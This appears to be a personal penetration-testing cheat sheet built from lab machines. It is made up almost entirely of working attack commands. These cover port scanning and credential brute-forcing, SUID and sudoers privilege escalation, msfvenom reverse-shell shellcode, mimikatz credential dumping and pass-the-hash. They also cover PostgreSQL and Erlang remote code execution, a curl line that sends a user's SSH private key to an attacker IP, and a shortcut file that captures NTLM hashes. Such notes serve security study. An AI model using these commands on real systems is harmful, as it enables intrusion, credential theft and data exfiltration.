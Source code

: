 # Port Scanning ( SYN )
	sudo nmap -p- --open -n -vv -sS -sV -oN fullscan $IP

# Credential Check
	admin:admin
	admin:adminadmin
	
# Found: LFI 
	Try to turn into RCE

# Found: Local user (/etc/passwd)
	Try username as password
	Brute force SSH, FTP (as last resort)

# File upload
	Windows: certutil
	Linux  : wget or curl

# Find a place to write file
	Windows: c:/users/public/downloads or c:/windows/temp
	Linux  : /dev/shm or /tmp

# Code Execution
	Always test with ping ( easiest way to confirm code execution )
	Do not expect every code being executed - Try harder!
	Check firewall rules if possible [LFI] ( /etc/ufw/user.rules )

# Reverse Shell
	Try open ports first (e.g; nc -lnvp 80 )

# Brute Force
	# HTTP post form
	ffuf -X POST -u http://$IP/login.php -d "username=USER&password=PASS&login=" -H "Content-Type: application/x-www-form-urlencoded" -w users:USER -w /usr/share/wordlists/rockyou.txt:PASS -x http://127.0.0.1:8080 -fr 'Wrong username' -ac

	# WordPress plugins ( I failed to use wpscan )
	curl http://plugins.svn.wordpress.org/ -s | perl -lne 'print $1 if /href="(.+?)\/"/' | grep -vE '^http://' > wordpress-plugins.txt
	ffuf -u http://$IP/wp-content/plugins/FUZZ -w wordpress-plugins.txt -c
	
	# SMB brute force ( hydra did not work )
	for user in $(cat usernames); do for pass in $(cat passwords); do smbclient -L $IP -U "$user%$pass"; done; done
	for user in $(cat usernames); do for pass in $(cat passwords); do smbmap -H $IP -u "$user" -p "$pass"; done; done

	# Basic authentication
	[401 Unauthorized] curl http://$IP/svn/
	[403 Forbidden   ] curl http://$IP/svn/     -u "admin:admin"
	[200 OK          ] curl http://$IP/svn/dev/ -u "admin:admin"
	
# PrivEsc
	wmic service where "startname like 'LocalSystem' and not pathname like '%windows%'" get name,startname,startmode,pathname
	cp /bin/bash /tmp/rootbash;chmod +s /tmp/rootbash;/tmp/rootbash -p

	# Look carefully to find a cronjob running in a small timeframe and check PATH
	cat /etc/crontab
	ls -alhR /etc/cron*

# Buffer Overflow
	$ for i in {1..255}; do printf "\\\x%02x" $i; done;
	$ msfvenom -p windows/shell_reverse_tcp LHOST=$LHOST LPORT=$LPORT EXITFUNC=thread -f c -b "$BADCHARS" > shellcode
	$ cat shellcode | grep \" | tr '\n' ' ' | sed -e 's/[" ]//g'

# Active Directory
	$ crackmapexec smb $IP -u $USER -H $HASH --local-auth
	$ smbexec.py USER@IP -hashes $HASH
	# mimikatz
		lsadump::sam
		sekurlsa::logonpasswords

# Machines		
_ref: Cobweb_
```
# find writable folders
$ find / -type d -writable 2>/dev/null

# exclude nosuid mounted paths
mount | grep -v nosuid
```

_ref: sona_
```
# find possible passwords
$ grep -iroE 'password[=>].{5,30}' *

# find python module path
$ python3 -c 'import base64; print(base64.__file__)'
/usr/lib/python3.8/base64.py
```

_ref: Postfish_
```
# find group readable files
$ groups
$ find / -type f -group $GROUP -readable 2>/dev/null
```

_ref: Nukem_
```
$ echo commander ALL=(ALL) ALL >> sudoers
```

_ref: Hunit_
```
# only git user has permission to push arbitrary updates to the master branch of a local repository.
# https://superuser.com/questions/232373/how-to-tell-git-which-private-key-to-use
# remote operations (e.g, clone/push) must be done via git user's SSH private key, local git operations can be as usual.

$ GIT_SSH_COMMAND='ssh -i id_rsa.git -p 43022' git clone git@$IP:/git-server
$ git add -A
$ git show
$ git commit -m "gimme shell please"
$ GIT_SSH_COMMAND='ssh -i id_rsa.git -p 43022' git push origin master
```

_ref: Splodge_
```
# Check git repo
$ wget http://$IP/.git/index
$ file index 
index: Git index, version 2, 81 entries

# Download git repo ( https://github.com/internetwache/GitTools )
# https://pentester.land/tutorials/2018/10/25/source-code-disclosure-via-exposed-git-folder.html
$ ./gitdumper.sh http://$IP/.git/ repo
$ git status
$ git checkout -- .
$ git log

# https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5
postgres# CREATE TABLE cmd_exec(cmd_output text);
postgres# COPY cmd_exec FROM PROGRAM 'id';
postgres# SELECT * FROM cmd_exec;
```

_ref: Exfiltrated_
```
# Exiftool RCE
# https://github.com/OneSecCyber/JPEG_RCE
```

_ref: Clyde_
```
# Erlang Port Mapper Daemon exploit (python)
# == OR == 
$ apt install erlang
$ erl -sname test
(test@kali)1> erlang:spawn('rabbit@clyde',os,cmd,["echo ...|base64 -d|bash"]).
```

_ref: Develop_
```
# PHP Magic Hashes and Type Juggling
# https://www.whitehatsec.com/blog/magic-hashes/
$ php -a
php > var_dump(md5('240610708'));
string(32) "0e462097431906509019562988736854"
php > var_dump(md5('240610708') == '0e987654321098765432109876543210');
bool(true)

# Data exfiltration ( curl PUT request )
# Always test with known file locations (e.g; /etc/passwd )
$ curl${IFS}-T${IFS}/home/franz/.ssh/id_rsa${IFS}192.168.49.82
```

_ref: Vault_
```
# If you encounter a writable share, upload a shortcut link pointing to attacker's machine and run responder to catch NTLM hashes
$ cat <<EOF > @hax.url        
[InternetShortcut]
URL=anything
WorkingDirectory=anything
IconFile=\\192.168.49.236\%USERNAME%.icon
IconIndex=1
EOF
```
